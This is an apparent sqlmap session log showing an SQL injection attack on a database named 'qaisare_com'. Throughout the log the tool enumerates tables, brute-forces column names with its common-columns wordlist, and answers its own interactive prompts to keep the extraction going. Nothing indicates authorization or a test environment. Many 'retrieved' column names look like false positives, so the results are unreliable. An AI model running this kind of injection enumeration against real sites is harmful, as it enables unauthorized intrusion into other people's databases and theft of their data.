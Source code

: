 > 1
[17:36:45] [INFO] checking column existence using items from '/usr/share/sqlmap/txt/common-columns.txt'
[17:36:45] [INFO] adding words used on web page to the check list
[17:37:17] [INFO] retrieved: dnumber                                                             
[17:38:37] [INFO] retrieved: unit_number                                                         
[17:40:44] [INFO] retrieved: gap_codigo                                                          
[17:41:53] [INFO] retrieved: my                                                                  
[17:42:09] [INFO] retrieved: idkontakt                                                           
[17:42:52] [INFO] retrieved: image                                                               
[17:45:00] [INFO] retrieved: sessione                                                            
[17:47:08] [INFO] retrieved: pro_id                                                              
                                                                                                 
[17:47:29] [INFO] fetching entries for table 'aggtest' in database 'qaisare_com'
[17:47:29] [INFO] fetching number of entries for table 'aggtest' in database 'qaisare_com'
[17:47:29] [INFO] retrieved: 
[17:47:29] [WARNING] unable to retrieve the number of entries for table 'aggtest' in database 'qaisare_com'
[17:47:29] [INFO] fetching columns for table 'idioma' in database 'qaisare_com'
[17:47:29] [INFO] retrieved: 
[17:47:30] [ERROR] unable to retrieve the number of columns for table 'idioma' in database 'qaisare_com'
[17:47:30] [WARNING] unable to retrieve column names for table 'idioma' in database 'qaisare_com'
do you want to use common column existence check? [y/N/q] y
which common columns (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/txt/common-columns.txt' (press Enter)
[2] custom
> 1
[17:53:27] [INFO] checking column existence using items from '/usr/share/sqlmap/txt/common-columns.txt'
[17:53:27] [INFO] adding words used on web page to the check list
[17:55:35] [INFO] retrieved: cle                                                                 
[17:55:39] [INFO] retrieved: chave                                                               
[17:57:44] [INFO] retrieved: shipping_rate_id                                                    
[17:58:27] [INFO] retrieved: bezeichnung                                                         
[17:58:52] [INFO] retrieved: schweiz                                                             
[17:59:53] [INFO] retrieved: bf_id                                                               
[18:00:00] [INFO] retrieved: bsm_id                                                              
[18:00:00] [INFO] retrieved: pcode                                                               
[18:02:03] [INFO] retrieved: newsfeeds                                                           
[18:02:38] [INFO] retrieved: mootoolnicemenu                                                     
[18:04:12] [INFO] retrieved: urut                                                                
                                                                                                 
[18:04:16] [INFO] fetching entries for table 'idioma' in database 'qaisare_com'
[18:04:16] [INFO] fetching number of entries for table 'idioma' in database 'qaisare_com'
[18:04:16] [INFO] retrieved: 
[18:04:16] [WARNING] unable to retrieve the number of entries for table 'idioma' in database 'qaisare_com'
[18:04:16] [INFO] fetching columns for table 'dtb_campaign_detail' in database 'qaisare_com'
[18:04:16] [INFO] retrieved: 
[18:04:17] [ERROR] unable to retrieve the number of columns for table 'dtb_campaign_detail' in database 'qaisare_com'
[18:04:17] [WARNING] unable to retrieve column names for table 'dtb_campaign_detail' in database 'qaisare_com'
do you want to use common column existence check? [y/N/q] y
which common columns (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/txt/common-columns.txt' (press Enter)
[2] custom
> 1
[18:05:32] [INFO] checking column existence using items from '/usr/share/sqlmap/txt/common-columns.txt'
[18:05:32] [INFO] adding words used on web page to the check list
[18:06:09] [INFO] retrieved: fid                                                                 
[18:07:16] [INFO] retrieved: log                                                                 